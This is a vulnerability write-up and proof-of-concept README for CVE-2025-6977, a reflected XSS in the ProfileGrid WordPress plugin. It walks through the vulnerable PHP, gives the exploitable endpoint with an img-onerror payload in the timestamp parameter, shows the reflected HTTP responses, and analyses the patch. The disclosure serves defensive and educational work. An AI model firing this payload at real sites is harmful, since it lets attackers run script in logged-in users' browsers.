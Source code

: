 # CVE-2025-6977 – Reflected XSS in ProfileGrid WordPress Plugin (Unauthenticated)
- **CVE ID**: [CVE-2025-6977](https://www.cve.org/CVERecord?id=CVE-2025-6977)
- **Vulnerability Type**: Reflected Cross-Site Scripting (XSS)
- **Plugin Affected**: ProfileGrid – User Profiles, Groups and Communities
- **Affected Version(s)**: ≤ 5.9.5.4
- **CVE Discovered By**: [Kenneth Billones (Wordfence)](https://www.wordfence.com/threat-intel/vulnerabilities/researchers/kenziy)
- **Exploit PoC Author**: [CANITEY](https://github.com/canitey)
## Description
The ProfileGrid – User Profiles, Groups and Communities plugin for WordPress is vulnerable to Reflected Cross-Site Scripting via the ‘pm_get_messenger_notification’ function in all versions up to, and including, 5.9.5.4 due to insufficient input sanitization and output escaping. This makes it possible for unauthenticated attackers to inject arbitrary web scripts in pages that execute if they can successfully trick a logged-in user into performing an action such as clicking on a link.

The vulnerable endpoint is: `/wp-admin/admin-ajax.php?action=pm_get_messenger_notification&timestamp=<vulnerable parameter>&activity=&tid=1`
## Vulnerable snippet
```php
// public/class-profile-magic-public.php
public function pm_get_messenger_notification() { // (1)
	$pmmessenger = new PM_Messenger();
	$timestamp   = filter_input( INPUT_GET, 'timestamp' );
	$activity    = filter_input( INPUT_GET, 'activity' );
	$tid        = filter_input( INPUT_GET, 'tid' );
			 if($tid!=0)
			 {
				$return     = $pmmessenger->pm_get_messenger_notification( $timestamp, $activity, $tid );
				echo $return;
			 }
	die;
}
```
Before diving into the code snippet above, let's first explain the functions involved.
1. `filter_input(<type>, '<variable name>')` this function has 2 main parameters to be passed (we will be introduced to another one shortly), 
	1. `<type>` One of the `INPUT_*` constants, in our case `INPUT_GET` this variable means that we will receive data from a get parameter.
	2. `<variable name>` in our context it means the get parameter name the we will parse the value from.

As shown in the code snippet above.

The function `pm_get_messenger_notification` uses the `filter_input` function in 2 positions to get the `timestamp` value and put it in the corresponding variable. The issue lies in the fact that this implementation the `pm_get_messenger_notification` function get the value with no filtering or sanitization and pass them to `pm_get_messenger_notification` method of the `$pmmessenger` object (that's a different function) and I will explain what is the problem with that via the next code snippet.

```php
//  includes/class-profile-magic-messenger.php
// The snippet is more than 33 line so I cut the unneccessary line
public function pm_get_messenger_notification( $timestamp, $activity, $tid ) {

// -- snip --

			$result = array( 
				'activity'         => $activity,
				'data_changed'     => $data2,
				'typing_timestamp' => $last_change_in_typing,
				'timestamp'        => $last_change_in_thread,
				'timexxx'          =>$timestamp, (2)
				'last_ajax'        =>$last_ajax_call,
			);

					$json =  wp_json_encode( $result );
					 return $json;

	}

			$result =array();
			$json   = wp_json_encode( $result );
			return $json;

}
```

as shown at (2), the function uses `timestamp` directly from the passed parameter and return it as in json response, so by passing an `XSS` payload to the endpoint triggering the `pm_get_messenger_notification` function at (1) it will pass with no filters to the method `pm_get_messenger_notification` and then be displayed in response, and because the `Content-Type` is declared as `text/html` for the response this would allow the XSS to be executed.

## Exploitation
After installing wordpress, with the target version of the plugin, XSS can be triggered via the following endpoing:
 `http://vulnerable.word.press/profilegrid/wp-admin/admin-ajax.php?action=pm_get_messenger_notification&timestamp=1753214905&activity=&tid=1`
 via the `timestamp` parameters.

PS: To have the payload reflected to you, you need to have an active session and then visit the URL, other than that the response would be 0

---
The is the normal response without XSS payload
```
HTTP/1.1 200 OK
Date: Fri, 25 Jul 2025 17:09:25 GMT
Server: Apache/2.4.58 (Ubuntu)
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 94
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"activity":"","data_changed":true,"typing_timestamp":false,"timestamp":1753459470}
```

And this is the response while passing `<img src=x onerror=alert()>` to the `timestamp` parameter
`/wp-admin/admin-ajax.php?action=pm_get_messenger_notification&timestamp=%3Cimg%20src=x%20onerror=alert()%3E&activity=ss&tid=4`
```
HTTP/1.1 200 OK
Date: Fri, 25 Jul 2025 17:11:58 GMT
Server: Apache/2.4.58 (Ubuntu)
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 133
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"activity":null,"data_changed":false,"typing_timestamp":false,"timestamp":1753459470,"timexxx":"<img src=x onerror=alert()>","last_ajax":0}
```

### Attached with this README an automated exploit file.

## Patch Analysis
The vulnerability was patched in version **5.9.5.5** of the plugin. The developers addressed the issue by sanitizing the `timestamp` parameter using:
```php
$timestamp = filter_input( INPUT_GET, 'timestamp', FILTER_VALIDATE_INT );
```

An additional preventive measure — which was not implemented — would have been to explicitly set the response content type to JSON:
```php
header('Content-Type: application/json');
```
This would instruct the browser to treat the response as pure JSON, thereby blocking script execution, even if malicious content slipped through. While the input sanitization fix neutralizes the attack, setting the correct `Content-Type` as `application/json` would further harden the response against XSS.

# References
- [CVE Record on CVE.org](https://www.cve.org/CVERecord?id=CVE-2025-6977)
- [Plugin Page – ProfileGrid](https://wordpress.org/plugins/profilegrid-user-profiles-groups-and-communities/)
- [Wordfence Advisory](https://www.wordfence.com/threat-intel/)

